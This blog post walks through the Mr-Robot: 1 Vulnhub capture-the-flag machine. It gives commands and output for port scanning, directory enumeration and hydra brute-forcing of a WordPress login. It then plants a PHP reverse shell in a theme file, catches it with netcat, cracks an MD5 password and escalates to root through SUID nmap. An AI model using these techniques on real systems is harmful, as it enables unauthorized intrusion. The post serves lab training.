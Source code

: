 ```yaml
---
date: 2020-04-21 18:24:19
layout: post
title: "Mr Robot Vulnhub Walkthrough"
subtitle:
description: Mr-Robot 1 is one of vulnhub's CTF challenges, based on the favored TV series 'Mr Robot' (which is one of the best TV series).
image: /assets/img/uploads/mr-robot-ctf/mr-robot.jpg
optimized_image: /assets/img/uploads/mr-robot-ctf/mr-robot-optimized.jpg
category: walkthrough
tags: vulnhub boot2root
author: madhavmehndiratta
paginate: false
keywords: mr robot, mr robot vulnhub, mr robot walkthrough, mr robot try hack me, mr robot ctf, infosec articles
---
```


Mr-Robot: 1 is one of vulnhub's CTF challenges, based on the favored TV series 'Mr Robot' (which is one of the best TV series). There are 3 hidden keys in the VM. Our objective is to locate all 3 keys.

We begin our reconnaissance by running a port scan with Nmap, checking default scripts and testing
for vulnerabilities.

```r
m1m3@kali:~$ nmap -sC -sV -oA nmap/mrRobot 192.168.1.7

Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 192.168.1.7
Host is up (0.0018s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesnt have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesnt have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.91 seconds

```
<br>
We see a ssh port open and ports 80 and 443 are open. Let's fire up our browser and see what's running on port 80.

<center><br>
<img src="/assets/img/uploads/mr-robot-ctf/port80.png">
</center>

### KEY-1-OF-3

We'll try with some basics first. How about checking out for a robots.txt file?

```r
User-agent: *
fsocity.dic
key-1-of-3.txt
```

BOOM! We just found a dictionary file as well as our first key. Let's grab our first key at <b>http://target_ip/key-1-of-3.txt</b>. Also lets download the dictionary file, it might be useful.

Now let's use gobuster to search for directories we have.

```r
m1m3@kali:~$ gobuster dir -u http://192.168.1.7 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.log

===============================================================                 
Gobuster v3.0.1                                 
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================                                                                                                          
[+] Url:            http://192.168.1.7                 
[+] Threads:        10                 
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt    
[+] Status codes:   200,204,301,302,307,401,403 
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
 Starting gobuster
===============================================================
/images (Status: 301)
/blog (Status: 301)
/sitemap (Status: 200)
/rss (Status: 301)
/login (Status: 302)
/feed (Status: 301)
/video (Status: 301)
/image (Status: 301)
/wp-content (Status: 301)
/admin (Status: 301)
/intro (Status: 200)
/wp-login (Status: 200)
/css (Status: 301)
/license (Status: 200)
/wp-includes (Status: 301)
/js (Status: 301)
/readme (Status: 200)
/robots (Status: 200)
```

We see a lot of directories here. Also, we can see this site is running wordpress. So let's try bruteforcing the <i>/wp-login</i> with the dictionary file we have. Let's fire up burp to intercept the login request. I'll try a random username and password.

<center><br>
<img src="/assets/img/uploads/mr-robot-ctf/burp.png">
</center>

And we got this:<br>
<i>log=admin&pwd=admin&wp-submit=Log+In</i>

I'll be using <i>hydra</i> to fuzz the username. Before that let's sort the dictionary file to remove duplicate words using: 

`$ sort fsocity.dic | uniq > sorted.dic`

```r
m1m3@kali:~$ hydra -V -L sorted.dic -p 4444 192.168.1.7 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid Username' | grep http-post-form

[DATA] attacking http-post-form://192.168.1.7:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid Username
[80][http-post-form] host: 192.168.1.7   login: Elliot   password: 4444
[80][http-post-form] host: 192.168.1.7   login: elliot   password: 4444
[80][http-post-form] host: 192.168.1.7   login: ELLIOT   password: 4444
```
We got the username Elliot, Now we will run the same attack again for the password.

```r
m1m3@kali:~$ hydra 192.168.1.7 http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^:incorrect" -l Elliot -P sorted.dic -t 10 -w 30

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-04-28 15:17:15
[DATA] max 10 tasks per 1 server, overall 10 tasks, 11452 login tries (l:1/p:11452), ~1146 tries per task
[DATA] attacking http-post-form://192.168.1.7:80/wp-login.php:log=^USER^&pwd=^PASS^:incorrect

[80][http-post-form] host: 192.168.1.7   login: Elliot   password: ER28-0652

1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished.
```

That's it we just gained access to the WordPress platform, with the username Elliot and the password ER28-0652! Now we need to find a way to get a reverse shell. 

### KEY-2-OF-3

We can update a plugin with a php reverse shell to gain access. I'll be using the php shell from <a href="https://github.com/pentestmonkey/php-reverse-shell" rel=”nofollow”>pentest monkey.</a>

<center><br>
<img src="/assets/img/uploads/mr-robot-ctf/404plugin.png">
</center>

I've edited the 404.php Now our code will be executed if we go to any random url that doesn't exist. And we manage to get a reverse shell from the machine.

```r
m1m3@kali:~$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [192.168.1.12] from (UNKNOWN) [192.168.1.7] 48942
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 10:50:44 up  2:25,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: cant access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
daemon@linux:/$ 
```

Now If we try to access the second flag in /home/robot/key-2-of-3.txt, we get an error saying permission denied.

```r
daemon@linux:/home/robot$ wc -c key-2-of-3.txt
wc -c key-2-of-3.txt
wc: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ 
```

Also we have a <i>password.raw-md5</i> file in the home directory. This will be our way in!
This can be cracked using any online md5 decrypter and we the password of robot user as <i>abcdefghijklmnopqrstuvwxyz</i>


Now we can login as user robot using: 
```r
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ wc -c key-2-of-3.txt    
wc -c key-2-of-3.txt
33 key-2-of-3.txt
```

### KEY-3-OF-3

Now we must find a way to root. What about SUID files? Let's see.

```r
robot@linux:~$ find / -user root -perm -4000 -exec ls -ldb {} \; | grep -v proc
< root -perm -4000 -exec ls -ldb {} \; | grep -v proc                        
...
-rwsr-xr-x 1 root root 155008 Mar 12  2015 /usr/bin/sudo
-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
-rwsr-xr-x 1 root root 440416 May 12  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10240 Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
...
```

We can see that nmap is installed in the machine, this can be our way to root. Looking up in the <a href='https://gtfobins.github.io/gtfobins/nmap/' rel=”nofollow”>GTFO Bins,</a> I found we can get root using:

```r
robot@linux:~$ nmap --interactive                                 
nmap --interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )  
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh                                                          
!sh                                                             
# whoami
whoami
root
# wc -c /root/key-3-of-3.txt
wc -c /root/key-3-of-3.txt
33 /root/key-3-of-3.txt
```

That’s it! Thanks for reading. Stay tuned for similar walkthroughs and much more coming up in the near future!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/Ty_poe" rel=”nofollow”>Tyler Pate.</a>